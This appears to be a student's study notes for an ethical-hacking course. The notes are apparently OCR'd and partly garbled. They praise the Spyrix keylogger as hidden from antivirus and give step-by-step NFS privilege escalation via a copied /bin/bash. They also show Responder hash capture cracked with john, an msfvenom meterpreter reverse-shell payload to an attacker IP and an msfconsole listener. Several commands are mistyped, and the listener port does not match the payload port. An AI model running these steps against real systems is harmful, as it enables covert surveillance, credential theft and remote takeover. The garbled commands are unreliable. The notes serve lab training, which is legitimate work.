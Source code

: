 #####  Spyrix Personal Monitor
x Personal Monitor is used for remote monitoring on a computer that includes recording of keystrokes, passwords, and screenshots. This keylogger is perfectly hidden from antivirus, anti-rootkit, and anti-spyware software.



#### Privilege Escalation Using Misconfigured NFS
1.  check whether the NFS service is running on the target host. (port: 2049)
	- ``nmap -sV <ip> ``
2. command to install NFS and interact with the target NFS service: 
	- `` sudo apt-get install nfs-common``
	- ``showmount -e <IP>  ``
3.  command returns any mountable directories, create a directory named nfs
	-  ``mkdir /tmp/nfs``
4. command to mount the nfs directory on the target host.
	- ``sudo mount -t nfs <IP>:/<Share Directory> /tmp/nfs ``
5.  commands to view the details of the mounted directory and obtain the group ownership to the share directory. 
	- `` cd /tmp/nfs `` 
	- ``sudo cp /bin/bash`` 
	- ``ls -la``
6.  command to establish a remote connection with the target host using SSH: 
	-  ``ssh -l <Target Login Name> <Target IP Address>
 ``




#  LAB - 1 

## windows exp

## Task 1 -Perform Active Online Attack to Crack the System's Password using Responder

1. `` Run sudo responder -I eth0`` on parrot 
2. then run in windows machine 
	- ``  Run -> \\CEH-Toolsin the Open field and click OK``
3. capture the hash and save it in .txt file 
4. run `` john hash.txt
5. will get the password 
## Task 2: Gain Access to a Remote System using Reverse Shell Generator

1.  command to start Reverse Shell Generator.
	- ``docker run -d -p 80:80 reverse_shell_generator  ``
	- open firefox and go  http://localhost
	- set ip and port number 
2. create payload using msfvenom option present in the reverse shell generator tool
	-  **Copy** button to copy the MSFVenom code.
	- ``  msfvenom -p windows/meterpreter/reverse_tcp Ihost=10.10.1.13 Iport=444 -f exe › /home/attacker/Desktop/Windows.exeason)``
3. We will start a listener using Reverse Shell Generator
	- `` msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.1.13; set port 4444; exploit "exploit"/meterp``
